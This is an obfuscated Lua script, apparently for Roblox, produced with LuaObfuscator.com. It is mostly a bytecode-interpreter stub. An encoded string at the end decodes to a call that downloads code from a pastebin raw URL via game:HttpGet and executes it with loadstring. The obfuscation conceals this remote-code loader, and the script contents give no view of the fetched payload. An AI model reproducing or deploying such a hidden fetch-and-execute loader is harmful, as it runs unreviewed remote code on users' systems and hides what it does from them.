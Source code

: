 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v81=0;while true do if (v81==0) then v19=v0(v3(v30,1,1));return "";end end else local v82=v2(v0(v30,16));if v19 then local v91=0;local v92;while true do if (v91==0) then v92=v5(v82,v19);v19=nil;v91=1;end if (v91==1) then return v92;end end else return v82;end end end);local function v20(v31,v32,v33) if v33 then local v83=(v31/((5 -3)^(v32-(2 -1))))%((3 -1)^(((v33-1) -(v32-(2 -1))) + (620 -(555 + 64)))) ;return v83-(v83%(932 -(857 + (951 -(282 + 595))))) ;else local v84=(570 -(367 + 201))^(v32-(928 -(214 + (2350 -(1523 + 114))))) ;return (((v31%(v84 + v84))>=v84) and (1 + 0)) or (0 + 0) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 + 0 );v18=v18 + (2 -0) ;return (v36 * (1321 -(68 + 997))) + v35 ;end local function v23() local v37=1270 -(226 + 1044) ;local v38;local v39;local v40;local v41;while true do if (v37==(0 -0)) then v38,v39,v40,v41=v1(v16,v18,v18 + (120 -(32 + 85)) );v18=v18 + 4 + (0 -0) ;v37=1 + 0 ;end if (v37==(958 -(892 + 65))) then return (v41 * 16777216) + (v40 * (156337 -(91151 -(87 + 263)))) + (v39 * (472 -216)) + v38 ;end end end local function v24() local v42=18 -(10 + 8) ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(181 -((1490 -(630 + 793)) + 113))) then v45=1 + 0 ;v46=(v20(v44,2 -1 ,63 -43 ) * ((2 + 0)^(127 -95))) + v43 ;v42=954 -((2717 -1915) + 150) ;end if (v42==(7 -(18 -14))) then if (v47==(0 -0)) then if (v46==(1486 -(998 + 488))) then return v48 * (0 + 0) ;else v47=1 + 0 ;v45=997 -(915 + 82) ;end elseif (v47==((2283 + 3513) -3749)) then return ((v46==(0 -0)) and (v48 * ((1 + 0)/(0 -0)))) or (v48 * NaN) ;end return v8(v48,v47-(3632 -2609) ) * (v45 + (v46/((1189 -(1069 + 118))^52))) ;end if ((0 -0)==v42) then v43=v23();v44=v23();v42=1 -0 ;end if (v42==(1 + (3 -2))) then v47=v20(v44,4 + 17 ,(1801 -(760 + 987)) -23 );v48=((v20(v44,32)==((1914 -(1789 + 124)) + 0)) and  -((1558 -(745 + 21)) -(368 + 423))) or (1 -0) ;v42=9 -6 ;end end end local function v25(v49) local v50=0 + 0 ;local v51;local v52;while true do if (v50==1) then v51=v3(v16,v18,(v18 + v49) -((5 -3) -1) );v18=v18 + v49 ;v50=7 -(1822 -(1703 + 114)) ;end if (v50==(1 + 1)) then v52={};for v93=1 + 0 , #v51 do v52[v93]=v2(v1(v3(v51,v93,v93)));end v50=3;end if ((1058 -(87 + 968))==v50) then return v6(v52);end if (v50==0) then v51=nil;if  not v49 then local v103=0 -(701 -(376 + 325)) ;while true do if (v103==(0 + 0)) then v49=v23();if (v49==(0 -0)) then return "";end break;end end end v50=1414 -(447 + 966) ;end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return 1086 -(461 + 625) ;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();local v59=(function() return;end)();local v60=(function() return;end)();while true do if (v53~=(0 + 0)) then else v54=(function() return function(v104,v105,v106) local v107=(function() return 0 + 0 ;end)();local v108=(function() return;end)();while true do if (v107==0) then v108=(function() return 0;end)();while true do if (v108~=(1636 -(1373 + 263))) then else v104[v105-#"[" ]=(function() return v106();end)();return v104,v105,v106;end end break;end end end;end)();v55=(function() return {};end)();v56=(function() return {};end)();v53=(function() return 1001 -(451 + 549) ;end)();end if (v53==(1 + 0)) then local v88=(function() return 0;end)();while true do if (v88==(0 + 0)) then local v109=(function() return 0 + 0 ;end)();while true do if ((0 -0)==v109) then v57=(function() return {};end)();v58=(function() return {v55,v56,nil,v57};end)();v109=(function() return 1 -0 ;end)();end if (v109==1) then v88=(function() return 1385 -(746 + 638) ;end)();break;end end end if (v88==1) then v59=(function() return v23();end)();v53=(function() return 2;end)();break;end end end if (v53==(1 + 1)) then local v89=(function() return 529 -(406 + 123) ;end)();local v90=(function() return;end)();while true do if (0~=v89) then else v90=(function() return 0 -0 ;end)();while true do if (v90==1) then v58[ #"91("]=(function() return v21();end)();v53=(function() return 344 -(218 + 123) ;end)();break;end if (v90~=(1581 -(1535 + 46))) then else v60=(function() return {};end)();for v152= #"}",v59 do local v153=(function() return 0;end)();local v154=(function() return;end)();local v155=(function() return;end)();while true do if (v153~=(0 + 0)) then else v154=(function() return v21();end)();v155=(function() return nil;end)();v153=(function() return 1;end)();end if (v153~=(1 + 0)) then else if (v154== #">") then v155=(function() return v21()~=(0 + 0) ;end)();elseif (v154==(562 -(306 + 254))) then v155=(function() return v24();end)();elseif (v154~= #"91(") then else v155=(function() return v25();end)();end v60[v152]=(function() return v155;end)();break;end end end v90=(function() return 1 + 0 ;end)();end end break;end end end if (v53==(5 -2)) then for v95= #" ",v23() do local v96=(function() return 1322 -(1249 + 73) ;end)();local v97=(function() return;end)();while true do if (v96==0) then v97=(function() return v21();end)();if (v20(v97, #"[", #"}")==0) then local v146=(function() return 0;end)();local v147=(function() return;end)();local v148=(function() return;end)();local v149=(function() return;end)();while true do if (v146~=(1470 -(899 + 568))) then else if (v20(v148, #"xnx", #"-19")~= #",") then else v149[ #".com"]=(function() return v60[v149[ #".com"]];end)();end v55[v95]=(function() return v149;end)();break;end if ((1 + 0)~=v146) then else local v161=(function() return 0 -0 ;end)();local v162=(function() return;end)();while true do if (v161~=(603 -(268 + 335))) then else v162=(function() return 290 -(60 + 230) ;end)();while true do if (v162==(0 -0)) then v149=(function() return {v22(),v22(),nil,nil};end)();if (v147==(0 -0)) then local v175=(function() return 1900 -(106 + 1794) ;end)();local v176=(function() return;end)();while true do if (v175~=(572 -(426 + 146))) then else v176=(function() return 0 + 0 ;end)();while true do if (v176==0) then v149[ #"xnx"]=(function() return v22();end)();v149[ #"http"]=(function() return v22();end)();break;end end break;end end elseif (v147== #".") then v149[ #"gha"]=(function() return v23();end)();elseif (v147==(1 + 1)) then v149[ #"nil"]=(function() return v23() -((5 -3)^(1472 -(282 + 1174))) ;end)();elseif (v147== #"91(") then local v181=(function() return 0 -0 ;end)();local v182=(function() return;end)();while true do if (v181==(114 -(4 + 110))) then v182=(function() return 0;end)();while true do if ((811 -(569 + 242))~=v182) then else v149[ #"gha"]=(function() return v23() -((5 -3)^16) ;end)();v149[ #"asd1"]=(function() return v22();end)();break;end end break;end end end v162=(function() return 1 + 0 ;end)();end if (1~=v162) then else v146=(function() return 1026 -(706 + 318) ;end)();break;end end break;end end end if (v146~=(103 -(17 + 86))) then else local v163=(function() return 1251 -(721 + 530) ;end)();local v164=(function() return;end)();while true do if ((1271 -(945 + 326))~=v163) then else v164=(function() return 0 -0 ;end)();while true do if ((2 -1)~=v164) then else v146=(function() return 167 -(122 + 44) ;end)();break;end if ((0 -0)==v164) then v147=(function() return v20(v97,2 + 0 , #"gha");end)();v148=(function() return v20(v97, #"?id=",706 -(271 + 429) );end)();v164=(function() return 1 + 0 ;end)();end end break;end end end if (v146~=2) then else if (v20(v148, #"|", #".")~= #"[") then else v149[1502 -(1408 + 92) ]=(function() return v60[v149[2 + 0 ]];end)();end if (v20(v148,2,1 + 1 )== #"<") then v149[ #"gha"]=(function() return v60[v149[ #"gha"]];end)();end v146=(function() return 3;end)();end end end break;end end end for v98= #":",v23() do v56,v98,v28=(function() return v54(v56,v98,v28);end)();end return v58;end end end local function v29(v61,v62,v63) local v64=v61[1 -0 ];local v65=v61[2];local v66=v61[68 -(30 + 35) ];return function(...) local v67=v64;local v68=v65;local v69=v66;local v70=v27;local v71=1 + 0 ;local v72= -(1258 -((1259 -(42 + 174)) + 214));local v73={};local v74={...};local v75=v12("#",...) -1 ;local v76={};local v77={};for v85=0 -0 ,v75 do if ((v85>=v69) or (1155>2350)) then v73[v85-v69 ]=v74[v85 + ((912 + 301) -(323 + 889)) ];else v77[v85]=v74[v85 + (2 -1) ];end end local v78=(v75-v69) + 1 ;local v79;local v80;while true do v79=v67[v71];v80=v79[581 -(300 + 61 + 219) ];if (v80<=(323 -(53 + 114 + 153))) then if ((4029<=4853) and (v80<=(1 + 0))) then if (v80==(413 -(15 + 398))) then local v110=v79[984 -(18 + 964) ];local v111=v77[v79[11 -8 ]];v77[v110 + 1 + 0 ]=v111;v77[v110]=v111[v79[3 + 1 ]];else local v115=v79[852 -(20 + (2334 -(363 + 1141))) ];v77[v115]=v77[v115](v13(v77,v115 + 1 + 0 ,v72));end elseif ((v80>(128 -(116 + (1590 -(1183 + 397))))) or (516>3434)) then v77[v79[1 + 1 ]]=v63[v79[741 -(542 + 196) ]];else v77[v79[3 -1 ]]={};end elseif (v80<=(2 + 3)) then if (v80>(3 + 1)) then local v120=0 + 0 ;local v121;local v122;local v123;local v124;while true do if ((4046>=3033) and (v120==1)) then v72=(v123 + v121) -1 ;v124=0 -0 ;v120=4 -2 ;end if (v120==(1551 -((3427 -2301) + 425))) then v121=v79[407 -(118 + 287) ];v122,v123=v70(v77[v121](v13(v77,v121 + ((3 + 0) -2) ,v79[1124 -(89 + 29 + 1003) ])));v120=2 -1 ;end if (v120==2) then for v165=v121,v72 do local v166=377 -(142 + 235) ;while true do if (v166==(0 -(1975 -(1913 + 62)))) then v124=v124 + 1 ;v77[v165]=v122[v124];break;end end end break;end end else local v125;local v126,v127;local v128;local v129;v77[v79[1 + 0 + 1 ]]={};v71=v71 + (978 -((1463 -910) + 424)) ;v79=v67[v71];v77[v79[1935 -(565 + 1368) ]]=v63[v79[5 -2 ]];v71=v71 + 1 ;v79=v67[v71];v77[v79[2 + 0 ]]=v63[v79[3 + 0 ]];v71=v71 + (3 -2) + 0 ;v79=v67[v71];v129=v79[1 + 1 ];v128=v77[v79[2 + 1 ]];v77[v129 + 1 ]=v128;v77[v129]=v128[v79[8 -4 ]];v71=v71 + (2 -1) ;v79=v67[v71];v77[v79[2]]=v79[6 -3 ];v71=v71 + 1 + 0 ;v79=v67[v71];v129=v79[1663 -(1477 + 184) ];v126,v127=v70(v77[v129](v13(v77,v129 + (4 -3) ,v79[756 -(239 + (700 -186)) ])));v72=(v127 + v129) -(1 + 0) ;v125=1329 -(797 + 532) ;for v150=v129,v72 do local v151=0 + 0 ;while true do if (v151==(0 + 0 + 0)) then v125=v125 + (2 -1) ;v77[v150]=v126[v125];break;end end end v71=v71 + (1203 -(373 + 829)) ;v79=v67[v71];v129=v79[733 -(476 + (1111 -(564 + 292))) ];v77[v129]=v77[v129](v13(v77,v129 + (1131 -(369 + 761)) ,v72));v71=v71 + 1 + 0 ;v79=v67[v71];v77[v79[2 -0 ]]();v71=v71 + (1 -0) ;v79=v67[v71];do return;end end elseif ((v80<=6) or (2719<=1447)) then v77[v79[2]]();elseif (v80>(245 -((110 -46) + (524 -350)))) then do return;end else v77[v79[1 + (305 -(244 + 60)) ]]=v79[3 -0 ];end v71=v71 + (337 -(144 + 192)) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F747A673455454B6900094Q00047Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
